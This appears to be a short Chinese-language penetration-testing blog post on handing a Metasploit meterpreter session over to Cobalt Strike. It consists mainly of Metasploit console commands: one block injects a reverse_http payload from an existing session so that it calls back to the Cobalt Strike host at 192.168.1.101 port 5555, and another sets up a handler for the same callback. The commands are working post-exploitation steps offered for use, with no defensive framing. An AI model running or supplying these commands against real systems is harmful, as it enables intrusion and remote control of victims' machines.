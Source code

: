 ```yaml
---
title: "MSF 派生 Cobalt Strike 会话"
date: 2018-07-18T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['cobalt strike', 'metasploit']
categories: ['内网渗透']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



利用 Metasploit 派生 Cobalt Strike 会话

<!--more-->

信息.

```
metasploit IP:192.168.1.100 PORT:4444
Cobalt Strike IP:192.168.1.101 PORT:5555
```

## 有 meterpreter 会话

利用 `payload_inject` 模块注入新的 payload.

```
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.101
set lport 5555
set session 1
set disablepayloadhandler true
run
```

## 无 meterpreter 会话

在监听时将 `LHOST` 和 `LPORT` 改成 Cobalt Strike 对应的 IP 和 PORT.

```
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.1.101
set lport 5555
set disablepayloadhandler true 
run
```